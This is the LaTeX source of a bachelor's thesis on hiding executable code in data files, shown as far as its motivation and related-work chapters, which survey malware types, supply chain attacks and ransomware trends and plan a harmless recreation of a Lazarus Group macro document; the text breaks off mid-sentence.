%loads the class that provides the titlepage and some general packages.
\documentclass{UniVieCS_Thesis} 

%add the additional packages and macros that you want to use
%here you can find some useful additional packages and macros

%Package to show algorithms
\usepackage{algorithm2e}

%package to work with glossaries
\usepackage[acronym]{glossaries}

%packages and setings to show colored code
\usepackage{listings}
\usepackage{xcolor}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{mystyle}{
    backgroundcolor=\color{backcolour},   
    commentstyle=\color{codegreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{codegray},
    stringstyle=\color{codepurple},
    basicstyle=\ttfamily\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2
}

\lstset{style=mystyle}

%package to allow comments/notes by you and other people
\usepackage[multiuser,marginclue,nomargin,inline,index]{fixme}
\definecolor{ttwgreen}{RGB}{75,135,73}
\fxusetheme{colorsig}
%\FXRegisterAuthor{tm}{atm}{\color{red}TM}
\FXRegisterAuthor{ttw}{attw}{\color{ttwgreen}TTW} % creates ttwnote, ttwwarning, ttwerror, ttwfatal commands
%\FXRegisterAuthor{mk}{amk}{\color{blue}MK}

%add your own packages or macros here

% important update for glossaries, before document 
\loadglsentries{C) Back Matter/acronyms.tex}
\makeglossaries %https://www.overleaf.com/learn/latex/glossaries

%shows fixme notes
%\fxsetup{status=draft} % comment/delete this line if you want to your final output

\usepackage[ngerman, british]{babel} %if changed to \usepackage[ngerman]{babel} "Table of contents" changes to "Inhaltsverzeichnis", "abstract" becomes "Zusammenfassung" and "references" is translated to "Literatur".


%remove all the things you don't need and add all the things you need. you can also change the order of the elements at your will.
\begin{document}

    %Start with front matter
    % --CHANGE THE TITLEPAGE HERE

% title page provided in Word by the University which can be found here 
% https://informatik.univie.ac.at/studium/hilfe-fuer-studierende/bachelorarbeit-empfehlungen/ 
% Please pay attention to the guidelines that can be found there!
% If you want you can always create the titlepage in Word and then add it with \includepdf{<filename>} from the pdfpages package to your thesis.
%


%Do not change or delete the following two lines
\renewcommand{\TitleSetup}{BACHELORARBEIT / BACHELOR'S THESIS}
\renewcommand{\TitleTitleSetup}{Titel der Bachelorarbeit / Title of the Bachelor's Thesis\par}
% Change the rest of the lines to fit you thesis

% There are some commands also for multiple lines. If something exceeds more than a line use the multi line commands. In the worst case adjust the vertical spaces within the class.
% -- Title Page
\Title{File Format Security - Hiding Executable Code in Data Files}
% A title exceeding one line can be created using the \TitleTwo or \TitleThree command
%\TitleTwo{I wish I \\ had a Bachelor's Degree}
%\TitleThree{I wish I \\ had a Bachelor's \\ Degree}
\Who{Samuel Šulovský} %Make sure you add all your titles! 
% A name exceeding one line can be created using the \WhoTwo command
%\WhoTwo{ FirstName \\ LastName }
\Degree{Bachelor of Science (BSc)}
\Year{2022}
\ProgrammeCode{033521}
\ProgrammeName{Bachelorstudium Informatik} %Make sure it has the same Name as in the Studienblatt
\Supervisor{Univ.-Prof. Dipl.-Ing. Mag. Dr.techn. Edgar Weippl}
%\SupervisorTwo{Second Row} % Here you can change the row under the supervisor
\CoSupervisor{0} %remove this line if there is a Co supervisor
%\CoSupervisor{Professor Co}
%\CoSupervisorTwo{Second Row} % Here you can change the row under the cosupervisor

\Titlepage %This generates the titlepage
 %Creates the titlepage
    \clearpage
	\frontmatter{}
	\thispagestyle{empty}
\chapter{Acknowledgements}

Thank you to everyone who supported me during the writing process and kept me motivated on difficult days,
my supervisor Edgar Weippl for his guidance and Pascal Brokmeier for his excellent overview of a local \LaTeX{} 
writing environment.
\clearpage
%\cleardoublepage{}
 %adds the aknowledgements
			%Please consider the following section of the "Formvorschriften für die gedruckte Version"
	%Im Anhang ist eine Zusammenfassung (Abstract) mitzubinden. 
	%Ist die Arbeit in einer Fremdsprache verfasst, ist im Anhang jedenfalls eine deutsche Zusammenfassung mitzubinden.
\chapter{Abstract}
		This \LaTeX{} template provides example on how to format and display text, 
		mathematical formulas, and insert tables or images. There is a lot more you 
		can do with \LaTeX{}, for more information check out https://en.wikibooks.org/wiki/LaTeX.
 % adds the abstract
	\chapter{Kurzfassung}
Das ist eine deutsche Kurzfassung meiner in Englisch verfassten Masterarbeit.
\clearpage
 %adds the "Kurzfassung"in german.
	\pagebreak
	
    \microtypesetup{protrusion=false}
    \tableofcontents{}
    \listoffigures
    \cleardoublepage{}
    \cleardoublepage{}
    \lstlistoflistings
    \cleardoublepage{}
    \microtypesetup{protrusion=true}
    
	\pagebreak
	
	\mainmatter{}
    \chapter{Motivation}
Ever since my first foray into the field of information security I have been fascinated by the ways in which
different threats to an organisation's security arise. From the ways in which data can be obtained by rummaging
through dumpsters where sensitive documents were dumped without being properly destroyed to sophisticated zero-day
exploits used to distribute malware, the topic that particularly caught my interest was the way in which malicious
payloads can be concealed in relatively mundane looking files.

A perfect example of such file was a malicious Microsoft Word document created by the Lazarus Group \acrlong{APT}
distributed to victims in South Korea via spear phishing. The malware itself was hidden within a \acrfull{BMP} file 
that was itself concealed as a \acrfull{PNG} file. This malicious file was extracted to the victim's computer by 
a macro in the macro-enabled Word document, which is also a very interesting part of the infection process. 

This document piqued my interest for a multitude of reasons, chief among which was the interesting mechanism used
to infect the victim's device, which used a quirk of the \acrshort{PNG} and \acrshort{BMP} file formats and a conversion 
function from the \acrfull{WIA} \acrshort{API} in the \acrfull{VBA} programming language used to write macros 
that can be embedded in Word Documents. 

Using this functionality allowed the malicious payload to be concealed under many layers of file formats while also keeping
the extraction process quite simple, almost routine and ceratinly benign looking. The attack itself was also rather 
creative, using an interesting attack vector and custom toolchain typical for this threat actor.

The core of attacks like this one is that since files are all simply a series of bytes in the end -- the
interpretation is governed by how the operating system or program interacting with the file interprets 
those underlying bytes. 

Due to how file formats are defined, some formats are more suitable for attacks than others
and with the multitude of formats supported and used over the decades of computing, it is only inevitable that 
there would be a way to misuse some format in some way -- that being \acrshort{PNG} in this case. 
I believe it is valuable to recreate this attack to shed light on how potential future attacks could be carried out.

Out of interest as well as scientific rigour I attempt to recreate this malware, and analyse its effectiveness,
foregoing the malicious payload and causing no damage in the process. The main questions I seek to answer are the following:
\begin{itemize}
  \item How can a file hide malicious content?
  \item How can a concealed malicious payload be extracted from a file and executed?
  \item How do the previous questions come together to drop the \acrfull{rat} in the analysed document?
  \item Can the analysed document be recreated? Does the exploit still work?
  \item Are common systems still vulnerable?
\end{itemize}

Thus, the primary goal of this work is to recreate the malicious Microsoft Word document along with the image
payload and secondary mocked \acrfull{EXE} payload without the actual \acrlong{rat}. Recreating this malware should help
verify the reproducibility of the attack and its functionality as well as help gain further
insight into how vulnerable current systems are to a similar attack, if at all. Furthermore, this analysis may yield
advice other than the simple adage of not opening macro-enabled documents. Though, of course, this is always the best
protection mechanism against malware using \acrshort{VBA} macros as their attack vector.

To achieve this goal we create a facsimile of the malicious document as well as the payload it carried.
This recreation is based on the postmortem report of the attack written by Hossein Jazi. 
The first part of the recreation is a dummy \acrlong{EXE} containing a simple program that indicates the 
system would have been compromised if the attack was real. This \acrshort{EXE} will be hidden in the \acrshort{PNG}
and embedded in the macro-enabled Word document, analogous to the attack.
Finally, I execute this faux-malicious document inside a virtual machine running the Windows operating system
and track how it executes in comparison to the original attack. 

The metrics for measuring the success of this experiment are rather simple -- recreating the attack in its full
scale is deemed a full success, while failure after at least one part of the attack succeeds is deemed a partial
success. We also keep an eye out on when or whether antivirus software detects the payload.

In summary, recreating this attack can lend insight into how file formats can be misused to carry malicious payloads and
avoid detection while doing so. It also serves as an effort to validate the previous research done of this malware and
make sure the results of that research are reproducible. Furthermore, the alternative setup using a facsimile of the
malicious file may provide additional insight that had previously gone unnoticed.

\clearpage


    \chapter{Related Work}
% TODO: Write a short introduction
\section{What Is Malware?}
Though defining malware might seem as a simple task, formally defining it has been a difficult open problem in 
computer virology for a long time; the precise reasoning for this stems from the fact that each algorithm or
piece of software can be expressed logically and has certain \emph{intended behaviour}, which often isn't
properly defined \cite{malware-definition}. Kramer and Bradfield posit a logical definition of malware which
we won't fully dedicate ourselves to, but their introduction to the concept without the use of logical language
is worth mentioning. They posit malware as software that causes the actual behaviour of some other software
to differ from its intended behaviour, where this difference stems from an incorrectness in verification or
validation of program behaviour, leading to a defining characteristic of malware being the \emph{causation of incorrectness}
\cite{malware-definition}. 

Moving from this more formal definition to a more informal one, Skoudis defines malware as "[...]a set of instructions that 
run on your computer and make your system do something that an attacker wants it to do \cite{skoudis-book}". For our
intents and purposes this definition is sufficient, and we will further broaden it to our working definition:
\begin{quote}
  Malware is software maliciously designed to do whatever its author wants, unconstrained by legality, consent or
  permission.
\end{quote}

\subsection{Motivation}
Malicious actors can act in a multitude of ways, with motivations behind their actions grouped into a few overarching
categories. While different classifications exist, we will be basing ours on a classification by Brewster et al.
While there are many reasons for malware authors to act maliciously, the creation of malware doesn't always have
to be malicious. Malware can also be created to showcase a vulnerability and call attention to it, so that the 
security of the system  under attack can be improved without causing any actual damage. These kinds of actors are 
called \emph{white hat hackers} \cite{white-hat-hacking-definition}.


\subsubsection{Ideological}
Attackers motivated by ideology fall into this category. In the taxonomy by Brewster et al. this encompasses the
\emph{political, ideological and informational / promotional} categories, wherein the actors act based on a political
agenda (such as espionage, sabotage or political protest), a held belief (such as the belief in freedom of information)
that views hacking into systems as a necessary act, or the desire to disseminate information and increase public
awareness \cite{brewster-malware-motivation}.

A famous example of a political attack is the Stuxnet worm that targeted Iranian nuclear facilities in the year
2010 \cite{brewster-malware-motivation}. Stuxnet is reported to have been perpetrated by the US and Israeli governments,
though unconfirmed. %TODO: Cite (Beaumont and Hopkins, 2012).
An interesting facet of the Stuxnet worm was the fact that it spread through systems without causing any damage until it
arrived at its designated targets, where it activated to sabotage the target systems. %TODO: cite

While ideological actors in the taxonomy by Brewster et al. are similar to political attackers, they can be
distinguished because the beliefs they hold are personal, such as a protest against something they oppose or their 
religion \cite{brewster-malware-motivation}. Informational / promotional actors are, in our opinion, very similar to
these kinds of actors, with a famous example being Edward Snowden. Snowden is wanted by US authorities on charges of
espionage after stealing and subsequently leaking thousands of documents pertaining to government espionage against its
own citizens \cite{snowden}.

\subsubsection{Commercial}
Attackers that pursue some sort of financial, commercial or economic gain fall into this category. Brewster et al.
distinguish between \emph{financially motivated} actors and \emph{commercially motivated} actors, with the main
distinction being that the financially motivated actors act to gain more directly, while the commercial actors might
act out of additional reasons such as economic or industrial espionage or theft of company secrets or intellectual
property \cite{brewster-malware-motivation}.
We believe these motivations to be sufficiently similar to allow them to be grouped under one umbrella term.

\subsubsection{Personal}
The final category we observe joins together the remaining categories in the studied taxonomy, encompassing motivations
that are directly related to a person's own life. These are distinct from the ideologically motivated actors, as their
actions aren't necessarily driven by ideology, but more so by emotion or way of life. This category encompasses actors
that act emotionally, such as out of anger, boredom or who seek revenge, actors that hack because they find it fun or
challenging, or want validation from peers, or even actors that resort to hacking due to how they choose to live their
life, such as trolls hacking as a means of causing emotional distress to their targets
\cite{malware-motivation-classification, brewster-malware-motivation}.

\subsection{Types of Malware}
Malware comes in many shapes in sizes that have some characteristics in common, while differing on others. The most
basic part that all malware has in common is the \emph{payload}, or what the malware is supposed to do 
\cite[p.~12]{aycock-book}. This could be anything, but it is often understood to mean the malicious activity that 
the malware performs. Another property we consider all malware to have in common is an \emph{attack vector} or how
the malware gains access to the victim's system. We will cover attack vectors separately, but some examples include
social engineering, phishing, drive-by attacks, droppers or abuse of a vulnerability.

Where malware begins to differ are the other properties -- Aycock posits a taxonomy based on the following three 
characteristics, with each type of malware being classified on a scale roughly akin to "yes, no, maybe"
for each property.
\begin{quote}
  \begin{enumerate}
    \item \emph{Self-replicating} malware actively attempts to propagate by creating new copies, or instances, 
      of itself. Malware may also be propagated passively, by a user copying it accidentally, for example, 
      but this isn't self-replication.
    \item The \emph{population growth} of malware describes the overall change in the number of malware instances due to
      self-replication. Malware that doesn't self-replicate will always have a zero population growth, but malware with a
      zero population growth may self-replicate.
    \item \emph{Parasitic} malware requires some other executable code in order to exist. "Executable" in this context 
      should be taken very broadly to include anything that can be executed, such as boot block code on a disk, binary 
      code in applications, and interpreted code. It also includes source code, like application scripting languages,
      and code that may require compilation before being executed.
  \end{enumerate}
  \cite[p.~11-12]{aycock-book}
\end{quote}
Where these three characteristics are not sufficient to differentiate two types of malware, additional clarification can
be provided to distinguish the two; for example while \emph{spyware} and \emph{adware} both are not self-replicating,
have no population growth and are not parasitic, their payloads differ -- where spyware collects information for
exfiltration, adware often uses collected information for advertising purposes, spamming the user with advertisements
or exfiltrating information to gain a competitive edge \cite[p.~16-17]{aycock-book}. 

\subsubsection{Viruses}
Throughout our research, we have repeatedly come across a definition by Cohen, one of the first 
people to conduct research into computer viruses, which goes as follows: "A virus is a program that can ‘infect’ other 
programs by modifying them to include a, possibly evolved, version of itself \cite{cohen-virus-course}." The term
\emph{infect} is understood to mean the modification of the target program to include a copy of the virus as explained
in the remainder of the definition. 

Describing viruses using the three metrics outlined by Aycock, we consider viruses to self-replicate, have a positive 
population growth and be parasitic \cite[p.~14]{aycock-book}. Though viruses spread across the infected system 
(leading to the positive population growth), they notably don't spread through networks, which is the domain of worms, 
covered in the following section \cite[p.~15]{aycock-book}.

Viruses are generally noted to be structured in three distinct parts: 
\begin{itemize}
  \item the \emph{infection vector} -- how the virus spreads across a system. It doesn't necessarily have to be unique,
    leading to \emph{multipartite} viruses, 
  \item the \emph{trigger}, which is how the virus decides when the payload should be delivered,
  \item and finally the \emph{payload} which is what the virus does, other than just replicate throughout the infected
    system. Usually, the payload intends to cause some sort of damage, or even act as the start of another attack, such
    as the virus payload intending to open a back door to the system, allowing the attacker to access the system and use
    it as part of a botnet.
\end{itemize}
\cite[p.~7, p.~27]{viruses-revealed-book,aycock-book} %TODO: Is this citation style correct? 

Viruses, as described, infect files in order to spread and eventually drop their payload. There are numerous ways this
infection can take place: The file itself can be modified by the virus to contain a copy of the virus in a process known
as overwriting or insertion, the file can be replaced by a copy of the virus file that redirects the user to the
correct file after doing whatever it pleases after the user attempts to open the file (think of it as a more malicious 
shortcut) in what is called a companion virus, or, most importantly for the topic of this work, the virus can be
embedded in the macro section of a document format that supports macros, for example Microsoft Word \cite{aycock-book,
skoudis-book}. 

Macros are a simple tool that was originally intended to increase the productivity of users using word
processors such as Microsoft Word. Using macros allows the user to run arbitrary code at will, for example when the
document is opened, which is easy to weaponise for malicious use. Though the user is often given a warning about the
presence of macros in a document and given the option to run them, these warnings can be easily ignored, or worse, the
user can be deceived into allowing macros to be executed by an attacker.

The payload of a virus can be arbitrary, from having no payload at all and simply infecting more and more files, to
payloads that randomly delete files, clog up memory, create logic bombs or even back doors to the infected system 
\cite{viruses-revealed-book, skoudis-book, cohen-virus-course}. 

\subsubsection{Worms} \label{subsec:worms}
Since viruses spread through files on a system, they are naturally limited in their spread by human interaction
\cite{aycock-book}. In the early days of computing and computer viruses, it was common for users to move floppy
disks between systems, which allowed an easier spread for the virus, since there was a high rate of mobility of physical
disks between computers \cite{cohen-virus-course}. 

Spreading through networks instead of just the local file system is a rather important trait, which is why malware capable of
spreading throughout networks was given a new name: \emph{worm}. Worms share many characteristics with viruses -- on
Aycock's taxonomy they share two properties: they both self-replicate and they both have a positive population growth,
but differ in parasiticalness; worms forego being parasitic \cite[p.~15]{aycock-book}. Worms are standalone entities and
don't infect other files or rely on other executables; they can be thought of as infecting the machine itself \cite{
aycock-book, viruses-revealed-book}.

The main draw to worms from a malware author's perspective is the fact that worms often spread at a very rapid pace,
since they don't have to rely on humans in order to propagate \cite{aycock-book, skoudis-book, viruses-revealed-book}.
Though their speed is one draw, their reach is a non-negotiable second -- since they aren't constrained to being passed
around through physical media, they can reach virtually any device in the world, especially in today's interconnected
society \cite{skoudis-book, aycock-book}. This allows attacks to scale well and quickly infect a large amount of systems,
which can, depending on the payload, have potentially devastating consequences.

Another upside is that attacks conducted with worms have the potential to be very difficult to attribute to a particular
attacker, since the worm rapidly spreads throughout the internet, one victim's computer may be infected by the worm from
an IP address located in Ghana, while the next victim might be infected from a Swiss IP, making attribution, persecution
as well as countermeasure development more difficult \cite{skoudis-book}.

Worms are structured similarly to viruses, with a few minor differences. Skoudis proposes a model shaped like a missile,
wherein a worm is described as having a warhead which serves to penetrate the attacked system, a propagation engine,
scanning engine and target selection algorithm to facilitate the propagation of the worm to appropriately chosen and
vulnerable victims, and finally a payload to be dropped on infected devices to compromise the system or otherwise cause
damage to the victim \cite{skoudis-book}.

There are various ways in which a worm can propagate across a network, often being given a name based on the spread 
mechanism, e.g. \emph{email worm}. Because worms are standalone programs and don't rely on any particular files they can
spread through networks through ways that viruses don't, for example by using buffer overflows or underruns to leech
onto open network connections or can even send malicious emails or messages using other messaging clients with infected 
attachments to a victim's contacts \cite{skoudis-book, aycock-book}.

A particularly destructive use of worms is the creation of \emph{botnets}, large distributed networks of computers that
an attacker has established a back door in and compromised to do their bidding. These botnets can then be weaponised to
launch \acrfull{ddos} attacks with overwhelming force \cite{skoudis-book}. Worms are the perfect tool to create these
compromised networks as they spread rapidly across the world and can quickly find new victims and vulnerable machines
while making the resulting attack harder to trace and more powerful \cite{skoudis-book}.

\subsubsection{Trojan Horses}
The name of this malware threat comes from the epic poem \emph{Aeneid} by Virgil, which describes the final siege of the 
war between the Greeks and the Trojans. The Greeks built a large wooden horse and hid a small part of their army inside
it, then pretended to leave. The Trojans thought the horse was left as a gift and dragged it into the city. Unbeknownst
to them, the horse was full of enemy soldiers that sneaked out of the horse under the cover of the night and opened the
city gates from the inside for the attacking Greek army, ending the war then and there.

Similarly to the horse the Greeks constructed in the Trojan war, \emph{trojan horses} are malicious programs that
claim to be executing some mundane, harmless task (and they may or may not actually be doing that), while secretly 
executing some malicious task in the background, such as keylogging, or establishing a back door to the victim's system 
\cite[p.~12-13]{viruses-revealed-book, aycock-book}. 
What differentiates them from viruses and worms is that they don't self-replicate and thus don't have a population growth, 
but can be thought of as parasitic, as they perform tasks other programs might, while being malicious in the background 
\cite[p.~12]{aycock-book}. 

In the modern world, the lines between the three blur, however. Crucially, \emph{multipartite} malware relies on the
user launching an application they think will perform some mundane action (as a trojan would) in order to install a
self-replicating worm or virus and trigger the mechanism used to pass it on further \cite{viruses-revealed-book}. This
is just one of many complexities in categorising malware, which we will gloss over for the sake of brevity.

Just like for any other types of malware, a payload is important for the trojan to do any real damage. An important type
of payload often carried by trojans is a backdoor, leading to a so-called \acrfull{rat}, also called Remote Access Trojan 
\cite{viruses-revealed-book}. \acrshort{rat}s allow an attacker (or user of the \acrshort{rat}) to submit commands to
the victim (target) computer, copy files to and from it, making the machine a tool at the attacker's disposal
\cite{viruses-revealed-book}. The language of the previous sentence is purposefully vague on whether an attacker
is acting maliciously, as remote control (or remote access) software plays a legitimate role in computing -- we often
want to access a device remotely to work or copy files, such as by using \verb+ssh+.

\acrshort{rat}s are a particularly important threat when misused, as they grant an attacker full control over the
victim's computer, turning the victim's device into a \emph{zombie}, potentially being able to use it to fuel
\acrshort{ddos} attacks, as described in the \nameref{subsec:worms} subsection.


\subsubsection{Ransomware}
Ransomware will be discussed in depth in a further section discussing the current threat landscape, as it is an integral
part of it.

\subsection{Concealing Malware}

\subsection{Social Engineering and Phishing}
\subsubsection{Insider Threat}
\subsubsection{Compromised or Weak Credentials}

\section{Current Threat Landscape}
An overview of the current threat landscape is crucial to help us understand the role our analysed
attack plays in the overall landscape.

Cybersecurity threats have been on a continuing rise in recent years, both in size and scale 
\cite{enisa_threat_landscape}. Remote work during the COVID-19 pandemic greatly increased
the attack surface for malicious actors, as well as the time needed to detect intrusions 
or system compromise, leading to the average cost of data breaches increasing across the
board \cite{ibm_2020_cost_of_a_data_breach}. The role of remote work in security related 
incidents was further highlighted as the pandemic moved into its later stages in 2021 as
more companies returned to in-office work. In its 2021 "Cost of a Data Breach" report,
IBM reported that security incidents were costlier for companies implementing remote work,
with companies where over 50\% of the workforce worked remotely taking, on average, 58 days
more to identify and contain breaches when compared to companies where less than 50\% of workers
worked remotely \cite{ibm_2021_cost_of_a_data_breach}. This is in line with in the eponymous 
report from 2020, where 70\% of questioned organisations that implemented remote work as a result of the 
COVID-19 pandemic expecting the average cost of data breaches to increase \cite{ibm_2020_cost_of_a_data_breach}. 
The rise in the cost of data breaches continued in the year 2021, rising by a further 10\% to an 
average cost of \$4.24 million \cite{ibm_2021_cost_of_a_data_breach}.

\subsection{Supply Chain Attacks} \label{sec:supply-chain-attacks}
The biggest rising trend of 2021 have been \emph{supply chain attacks}, driven by the rising reliance of 
companies on third party solutions for their IT needs \cite{enisa_threat_landscape, morphisec_threat_landscape}.
The significance of these attacks has been so high, that the \acrfull{ENISA} created a separate threat
landscape report specifically for this threat.
Supply chain attacks are fundamentally comprised of two distinct attacks: the first on a supplier which the 
attackers then use to conduct a second attack on a target which uses the services of the compromised supplier,
be it a customer or another supplier \cite{enisa_supply_chain_threat_landscape}.

While the attack vectors used to conduct the initial attack on the supplier are in line with expectations, 
consisting of for example social engineering, brute force attacks or abuse of vulnerabilities in software
or configurations used by the victim, the attack vector used to conduct the secondary attack is far more
dangerous and highlights the true danger and severity of supply chain attacks.
Because of the customer-supplier relationship between the two victims, there exists an inherent trust
between the two parties that these types of attacks abuse. The danger comes through so-called Trusted Relationship
attacks where a relationship of trust between two parties is compromised by an attacker and used to compromise
the victim's security by using the trusted relationship as a means of lending themselves legitimacy.

In the realms of software this can mean an attacker compromising a supplier's code repositories, infecting
it with malware and then distributing it as an update to the supplier's customers. The customer is lulled into
a false sense of security with the update, as it comes from the supplier, and it appears there is no cause for 
concern. Attacking the supplier and gaining access to their systems can lead to various kinds of abuse 
such as phishing, distributing malware, or impersonating the supplier's personnel \cite{enisa_supply_chain_threat_landscape}.

The attack targets vary slightly between the two attacks, with the supplier attack being perpetrated not just 
in order to conduct the second attack, but also for example to steal code, configurations or even hardware schematics.
By far the most common target for supplier assets is code, with two thirds of the attacks studied by \acrshort{ENISA}
between January 2020 and July 2021 aiming to compromise this asset \cite{enisa_supply_chain_threat_landscape}. 

The attack on the customer carries similar traits with other cyberattacks, the main difference is in the increased 
ease of infiltration dependent on the success of the first attack.
Common targets are for example exfiltrating data, establishing botnets to carry out \acrfull{ddos} attacks or
extorting money from the victim via ransomware. Data exfiltration was the most common between all the attacks
covered in the \acrshort{ENISA} supply chain attack threat landscape with 58\% of attacks targeting this asset
\cite{enisa_supply_chain_threat_landscape}. 

%TODO: Possibly add a description of the SolarWinds attack to provide an example for this 

\subsection{Ransomware}
The term ransomware describes a category of malware threats used to digitally extort victims 
by denying access to a device or files, unless a ransom sum is paid, usually in Bitcoin or other 
cryptocurrencies \cite[p.~150]{ransomware_book}. Some ransomware attacks, like WannaCry, additionally 
threaten to delete the victim's files unless the ransom is paid within a certain time limit to further
intimidate victims into paying the ransom. The methods used to infect systems with ransomware are in line
with other common cyberattacks, for example making use of social engineering or exploiting vulnerabilities
\cite{nist_ransomware}.

A worrying trend reported by \acrshort{ENISA} was the increase in use of zero-day vulnerabilities in the
perpetration of ransomware schemes \cite{enisa_threat_landscape}. \emph{Zero-day attacks} are a class of
attacks that exploit vulnerabilities that have not yet been publicly disclosed \cite{zero-day}. They give the 
attacker a massive advantage as it's virtually impossible to defend against them because of their nature -- 
antivirus software has no hash signature to recognise and the software's developers have no chance to patch the
exploit since they aren't aware of it. These kinds of attacks were previously used mainly by \acrfull{APTs} 
and nation-state threat actors, mainly due to their immense value as a free pass to
any target they may wish to attack \cite{enisa_threat_landscape}. The fact that zero-day attacks are becoming more
common in the ransomware sphere means that the high cost of using a zero-day vulnerability is worth it for the 
attackers -- one is led to believe the payouts are high enough to justify it. 

The profitability of ransomware is a large reason for its rise. It's a means of maximising the monetisation of 
malware as attackers become increasingly motivated by financial gains \cite{ransomware-comprehensive, enisa_threat_landscape}.
Some say we are observing a "golden age" of ransomware, as ransomware becomes more available to threat actors
as \acrfull{raas} becomes more and more widespread and attackers target larger targets in search
of higher payouts \cite{enisa_threat_landscape}. Additionally, amoral threat actors are increasingly targeting
vital infrastructure and organisations that rely on access to their data to prevent death of patients
or hold very important legal data, asking for exorbitant ransom fees which they hope the victims will pay in order
not to be complicit in ,for example, the death of a patient \cite[p.~17-18]{morphisec_threat_landscape,
ransomware-book}. %TODO: is this citation correct? p17-18 only apply to the ransomware-book reference
High profile hacks and payouts continue to motivate these threat actors to try and replicate these successes and 
get a large payout. 

Another increasing trend in ransomware is the utilisation of multiple axes of attack. The result of these multiple
threats has become known as \emph{double extortion ransomware} or even \emph{triple extortion ransomware}. A common
double extortion ransomware attack consists of the encryption of the victim's data alongside its exfiltration,
with the attacker demanding ransom be paid or their files would not only remain decrypted, but would also be leaked
\cite{enisa_threat_landscape, unit42-ransomware}.

As mentioned above, ransomware is distributed much the same as any other malware threat, which is why the developments
in this area are relevant to our topic. Hiding a ransomware payload in a data file is virtually the same as hiding
any other malware in the file. Thus, with ransomware on the rise, we can anticipate payloads of infected Microsoft
Word or PDF documents to deliver ransomware instead of other malware types. In fact, this is already the case -- 
malicious macro-enabled Word documents or exploited PDF files are already among the attack vectors used in ransomware
delivery, often as a form of downloading, de-obfuscating or decrypting the code that takes control of the machine
\cite[p.~8-10]{ransomware-book}.

\subsubsection{Ransomware as a Service (RaaS)}
As was mentioned in subsection \ref{sec:supply-chain-attacks}, companies are increasingly turning to external service providers 
for their IT solutions and the same can be said for threat actors. Though distributing malware with the intent of
letting other actors perpetrate attacks is not a new phenomenon, the \acrfull{raas} business model is surging in
popularity in recent years. Conti and REvil, the two threat actors with the largest profits as well as infections in the ransomware 
space, were both \acrshort{raas} providers, allowing their customers to easily orchestrate ransomware attacks
\cite{enisa_threat_landscape, unit42-ransomware}.

\acrshort{raas} also makes it much easier for inexperienced attackers or script kiddies to get access to ransomware
and carry out attacks -- so long as they have the capital to purchase the ransomware from the dark web
\cite{social-engineering-ransomware-vector}. Additionally, this points to malicious actors growing closer together
as a community, allowing each to focus on their own area of expertise (malware creation, social engineering,
vulnerability discovery, etc.) and sell expertly crafted solutions to other malicious actors for money or even 
a share of the profits of an attack carried out using their tool \cite{enisa_threat_landscape}.
Another shortcut attackers take that has been observed in 2022 by Unit 42 is the purchasing of access to a compromised 
network directly from so-called \emph{initial access brokers} who provide the ransomware attackers with the ability to
directly drop their ransomware into an already compromised network, saving time and money \cite{unit42-ransomware}.
It is easy to see why this kind of relationship is particularly profitable for attackers perpetrating ransomware
attacks. 

Furthermore, \acrshort{raas} comes with an online dashboard for the command and control server, bulk mail spamming
services, or even specialised social engineering teams that further amplify the effectiveness of the attack
\cite{social-engineering-ransomware-vector}. These services, naturally, come at a cost. Some compensation methods
for the \acrshort{raas} creators include a subscription based model, direct payment or a cut of profits
\cite[p.~44-45]{enisa_threat_landscape, ransomware-book}.

Attributing ransomware attacks to specific threat actors is also becoming more difficult due to this model,
as when a certain strain of ransomware is known to, as an example, spread via e-mail in North America,
if that same ransomware then starts spreading via malicious banner ads in Africa, linking the two is difficult
for security researchers, as it is unclear if they belong to the same family of ransomware, or if they are 
entirely different \cite[p.~47]{ransomware-book}. This hampers not only research into ransomware and how it
spreads, but in some cases also recovery efforts. Knowing which strain of ransomware infected a network can
in some cases even help avoid paying ransom altogether if the encryption algorithm used is known to be
crackable.

All these factors have contributed to the rise in ransomware cases, ransom amounts as well as groups
perpetrating these attacks due to \acrshort{raas} lowering the barrier to entry \cite{unit42-ransomware}.
Because of this, we can expect the amount of ransomware groups to continue to rise in the future. Since ransomware
is an increasingly popular attack type, the ability to hide it in infected data files is crucial, or in other words:
being able to understand how ransomware can be hidden within data files is becoming increasingly important.

\subsubsection{Multiple Extortion Ransomware}
Another trend mentioned in passing in subsection \ref{sec:supply-chain-attacks} is the increase in cases where
threat actors choose to pressure the victim on multiple fronts, often two, with three becoming an important
number as well. Double extortion was first observed in late 2019, but is noted to have exploded in popularity
by 2022 with the primary secondary extortion tactic being data exfiltration with the motive of threatening victims
into paying quicker, or demanding additional funds \cite{unit42-ransomware, multiple-extortion-ransomware}. 

This data exfiltration trend arose out of a decreased number of organisations willing to pay ransom due to strong
backups -- due to easy backup solutions like cloud backups more and more companies were able to recover from serious
ransomware attacks by simply resetting their machine to a clean state and restoring a backup, hampering the attackers'
ability to secure the ransom payment \cite{multiple-extortion-ransomware}. Attackers often threaten to publish
the data on the dark web to name and shame the victims into paying the ransom, because even if the 
organisation can recover its data using a back up, the threat of a data leak is much more difficult to stop internally.

An example of a threat actor that perpetrates these kinds of attacks is the Conti threat group. 
The group has been at the forefront of ransomware attacks observed by Unit 42 and has leveraged double extortion
attacks to demand high average ransom payments of \$1.78 million in 2021 and leaking data of over 600 organisations,
including vital infrastructure such as hospitals or law enforcement agencies \cite{unit42-ransomware}.
It is clear that Conti are ruthless attackers, stopping at nothing to secure profits.

Even though double extortion ransomware is still in its infancy, attackers are already innovating on the concept
of using multiple angles of extorting their victims. The term \emph{triple extortion ransomware} was coined mainly
in relation to a ransomware attack on Finnish mental health care provider Vastaamo. The attackers targeted the clinic 
and demanded ransom for decryption of patient data, which they also exfiltrated as part of a double extortion scheme
\cite{kshteri-ransomware}.
However, what set apart this case was that the attackers then additionally extorted the patients, the victim's
customers, by demanding smaller sums of money from them directly, threatening to leak their therapists' 
session notes \cite{vastaamo}.
Ultimately, the company buckled under the heavy financial losses and the data breach and declared bankruptcy,
ceasing operations completely \cite{vastaamo, kshteri-ransomware}.

Attacks like the ones described above have been given the name \emph{multiple extortion ransomware} by Payne and
